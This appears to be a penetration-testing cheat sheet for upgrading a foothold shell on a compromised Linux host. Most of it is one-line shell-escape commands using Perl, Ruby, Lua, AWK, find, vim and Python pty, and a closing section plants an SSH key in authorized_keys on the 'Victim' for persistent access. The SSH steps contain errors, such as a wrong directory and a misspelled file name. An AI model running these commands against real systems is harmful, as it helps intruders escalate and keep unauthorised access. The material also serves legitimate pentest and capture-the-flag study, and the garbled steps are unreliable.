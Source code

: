 

## UPGRADE SHELL:
### STABILIZE:
#### /bin/sh -i
-`/bin/sh -i`

#### Perl
-`perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`

#### Ruby
- `ruby: exec "/bin/sh"`

#### Lua
- `lua: os.execute('/bin/sh')`

#### AWK
- `awk 'BEGIN {system("/bin/sh")}'`

#### Find
- `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`

#### Using Exec To Launch A Shell
- `find . -exec /bin/sh \; -quit`

#### VIM
- `vim -c ':!/bin/sh'`

##### Vim Escape
```
vim
:set shell=/bin/sh
:shell
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm
```

### PROPER SHELL:
#### Victim
```
ssh-keygen
cd ./ssh
cat id_rsa.pub > authorized_keys
chmod 700 ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_key
```
